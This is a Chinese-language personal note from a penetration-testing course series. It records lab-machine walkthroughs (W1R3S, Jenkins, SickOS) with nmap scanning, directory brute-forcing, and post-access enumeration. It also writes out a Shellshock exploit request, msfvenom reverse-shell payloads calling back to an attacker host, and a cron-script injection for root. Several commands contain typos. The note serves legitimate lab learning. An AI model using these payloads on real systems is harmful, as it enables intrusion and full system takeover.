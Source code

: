 ```yaml
---
title: 渗透思路笔记
id: 渗透思路笔记

---
```


<!-- more -->

[红队笔记的个人空间-红队笔记个人主页-哔哩哔哩视频 (bilibili.com)](https://space.bilibili.com/491748397/channel/collectiondetail?sid=821390)

视频有一个系列，打的靶场，主要是学思路，还有扩展工具和漏洞

## W1R3S

[「红队笔记」学渗透必打百台靶机实操精讲-W1R3S_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mB4y1j7K6/?spm_id_from=333.788&vd_source=faef0441e8f81219c72917ecec338b4b)



### nmap--主机发现、端口扫描

[「红队笔记」主机发现和端口扫描的基本原理和工具选择_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1dg411b74a/?spm_id_from=333.999.0.0&vd_source=faef0441e8f81219c72917ecec338b4b)

官方命令手册

[Chapter 15. Nmap Reference Guide | Nmap Network Scanning](https://nmap.org/book/man.html)

[Nmap中文手册 - Nmap中文网](http://www.nmap.com.cn/doc/manual.shtm#4)

nmap脚本 [NSEDoc Reference Portal: NSE Categories — Nmap Scripting Engine documentation](https://nmap.org/nsedoc/categories/)  eg:

```shell
nmap --script=vuln
```

> 本次所用命令
>
> ```shell
> sudo nmap --minb-rate 10000 -p- 10.10.10.19 #端口扫描
> 
> sudo nmap -sT -sV -O -p22，3128，8080 10.10.10.19 
> #-sT tcp扫描，-sV版本扫描，-O系统扫描，-p指定端口，可以指定上一条扫描出的开放端口
> 
> sudo nmap -sU -p22，3128，8080 10.10.10.19 
> #-sU udp扫描
> ```
>
> 



### Dirble--目录爆破

[nccgroup/dirble：快速目录扫描和抓取工具 (github.com)](https://github.com/nccgroup/dirble)

### DirBuster--目录爆破

kali自带

### feroxbuster--目录爆破

kali自带

### SearchSploit--漏洞查询

kali自带

### John--hash碰撞

kali自带





## jenkins

初步获得系统权限，获取主机信息

```shell
whoami  	#当前用户
uname -a	#系统信息

#ip信息
ip a
ifconfig

dpkg -l		#Debian 软件包管理，查询安装软件

sudo -l 	#查看当前用户权限

cat /etc/passwd  	#查看各用户权限
```

### Crontab提权

[crontab提权 – 赛博网安wiki (allinsec.cn)](http://wiki.allinsec.cn/?p=510)

查看/etc/crontab下root用户的计划任务

```shell
cat /etc/crontab
或
cat /etc/cron.d
```

查看所执行的文件权限，若其他用户可写，则向该脚本文件中写入提权操作





## SickOS

### 解法一：

wolfcms上传shell，通过配置文件，同密码登录，权限提升

### 解法二：

#### nikto --web扫描，扫出shellshock漏洞

[sullo/nikto: Nikto web server scanner (github.com)](https://github.com/sullo/nikto)

```shell
sudo nikto -h 10.10.19 -useproxy http://10.10.19:3128
```

#### 通过3128的代理服务访问目标网站，验证shellshock漏洞

```shell
sudo curl -v --proxy http://10.10.10.19:3128 http://10.10.10.19/cgi-bin/status -H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```

#### msf生成payload反弹shell

```shell
sudo msfvenom -p cmd/unix/reverse_basj lhost=10.10.10.3 lport=443 -f raw
```

#### 查看系统信息

```shell
whoami
uname -a
dpkg -l
```

知道系统信息为ubuntu，且安装了python，可以利用python起一个交互性更好的shell

```shell
pychon -c "import pty;pty.spawn('/bin/bash')"
```

#### 查看文件connect.py，提示自动计划

```shell
cd /etc
ls -liah cron*
```

#### msf生成python反弹shell，插入connect.py，监听获得root权限shell

```shell
sudo msfvenor -p cmd/unix/reverse_python lhost=10.10.10.3 lport=444 -f raw
```


